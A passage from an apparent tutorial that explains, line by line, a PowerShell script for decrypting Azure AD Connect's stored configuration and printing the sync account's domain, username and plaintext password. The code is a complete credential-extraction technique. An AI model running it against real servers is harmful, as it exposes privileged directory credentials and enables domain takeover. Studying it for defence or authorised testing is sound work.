 6.  `$crypted = $reader.GetString(1)`
    -   Retrieves the encrypted_configuration value from the second column.

7.  `$reader.Close()`
    -   Closes the reader.


#### 4. Decrypting the Configuration {#4-dot-decrypting-the-configuration}

```powershell
add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
```

**Line-by-line breakdown**:

1.  `add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'`
    -   Loads the mcrypt.dll library for decryption.

2.  `$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager`
    -   Creates a new KeyManager object for handling encryption keys.

3.  `$km.LoadKeySet($entropy, $instance_id, $key_id)`
    -   Loads the key set using the previously retrieved entropy, instance_id, and key_id.

4.  `$key = $null`
    -   Initializes a variable to store the active credential key.

5.  `$km.GetActiveCredentialKey([ref]$key)`
    -   Retrieves the active credential key.

6.  `$key2 = $null`
    -   Initializes a variable to store a secondary key.

7.  `$km.GetKey(1, [ref]$key2)`
    -   Retrieves the secondary key (key ID 1).

8.  `$decrypted = $null`
    -   Initializes a variable to store the decrypted configuration.

9.  `$key2.DecryptBase64ToString($crypted, [ref]$decrypted)`
    -   Decrypts the encrypted configuration using the secondary key.


#### 5. Extracting Credentials {#5-dot-extracting-credentials}

```powershell
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```
